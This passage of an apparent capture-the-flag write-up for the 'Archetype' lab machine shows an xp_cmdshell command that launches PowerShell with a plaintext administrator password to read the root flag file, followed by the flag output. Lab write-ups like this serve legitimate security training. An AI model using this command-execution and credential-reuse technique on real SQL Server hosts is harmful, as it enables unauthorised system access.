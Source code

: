 ```sql
db_denydatawriter                               
```


So I needed to try the latter approach: run the command to read the flag as administrator.
I did some research and found [a way to do this using PowerShell](https://superuser.com/a/1421775/506517). I ran the following command to specify the administrator credentials and print the contents of the flag:


```sql
SQL> xp_cmdshell "powershell "$username=\"administrator\";$password=\"MEGACORP_4dm1n!!\";$pass = ConvertTo-SecureString -AsPlainText $Password -Force;$Cred = New-Object System.Management.Automation.PSCredential -ArgumentList $Username,$pass;Invoke-Command -ComputerName \"Archetype\" -Credential $Cred -ScriptBlock {Get-Content C:\Users\Administrator\Desktop\root.txt} ""

output                                                                             
 
b91ccec3305e98240082d4474b848528
```




